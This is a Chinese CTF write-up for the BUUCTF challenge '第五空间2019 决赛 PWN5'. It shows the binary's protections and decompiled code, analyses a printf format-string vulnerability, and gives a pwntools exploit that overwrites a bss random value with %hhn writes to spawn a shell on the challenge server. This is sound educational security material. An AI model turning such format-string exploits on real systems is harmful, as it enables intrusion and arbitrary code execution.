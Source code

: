 ```yaml
---
title: 第五空间2019_决赛_PWN5
date: 2022-07-08 12:56:46
permalink: /pages/19110b/
categories:
  - 网络安全
  - pwn
tags:
  - 
author: 
  name: jimmy
  link: https://github.com/Riam-jimmy
---
```

# 第五空间2019 决赛 PWN5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int fd; // ST14_4
  int result; // eax
  int v4; // ecx
  unsigned int v5; // et1
  char nptr; // [esp+4h] [ebp-80h]
  char buf; // [esp+14h] [ebp-70h]
  unsigned int v8; // [esp+78h] [ebp-Ch]
  int *v9; // [esp+7Ch] [ebp-8h]

  v9 = &a1;
  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  v5 = __readgsdword(0x14u);
  v4 = v5 ^ v8;
  if ( v5 != v8 )
    sub_80493D0(v4);
  return result;
}
```

程序运行时在`unk_804C044`处写入随机数，在最后一次输入结束后，若与`unk_804C044`处的随机数相等，可获得`shell`

## 思路分析

1. 目前信息
   - 第一次输入处存在格式化字符串漏洞
   - PIE关闭
   - `unk_804C044`是在`bss`段，地址可确定
2. 问题
   - 需要绕过与随机数对比的判断
3. 解决思路
   - 通过`printf`的格式化字符串漏洞，使用`%?$hhn`的方式逐字节修改`unk_804C044`的值，在最后一次输入时传入对应的值，通过自己与自己的比较绕过判断获得`shell`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
io = remote('node4.buuoj.cn', 25502)
# io = process(pwnfile)
bss_804C044 = 0x804C044
payload = flat([bss_804C044, bss_804C044+1, bss_804C044+2,bss_804C044+3, "%10$hhn%11$hhn%12$hhn%13$hhn"])
# 逐字节修改bss_804C044，printf在打印格式化字符串之前一共打印了16个，修改后bss_804C044的值应为0x10101010
io.sendlineafter('name:', payload)
io.sendlineafter('passwd:', str(0x10101010))
io.interactive()
```